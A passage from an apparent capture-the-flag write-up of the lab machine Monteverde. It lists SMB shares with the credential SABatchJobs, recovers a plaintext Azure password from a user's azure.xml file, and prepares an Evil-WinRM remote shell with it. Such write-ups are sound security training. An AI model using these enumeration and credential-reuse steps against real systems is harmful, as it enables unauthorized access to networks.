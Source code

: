```
# smbclient -I 10.10.10.172 -L MONTEVERDE -U"megabank/SABatchJobs%SABatchJobs"

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
        users$          Disk
```

Long story short, there's a file `azure.xml` that contains sensitive information at `//10.10.10.172/users$/mhope`.

{% include image.html image_alt="5ff03c43.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/5ff03c43.png" %}

Let's grab that file.

{% include image.html image_alt="f9e66c5c.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/f9e66c5c.png" %}

<div class="filename"><span>azure.xml</span></div>

```xml
# cat azure.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Another password??!!

### PSRemoting / WinRM

Enter [Evil-WinRM](https://github.com/Hackplayers/evil-winrm). Armed with the credential (`mhope:4n0therD4y@n0th3r$`), let's see if we can get ourselves a shell.

{% include image.html image_alt="f200ad1d.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/f200ad1d.png" %}
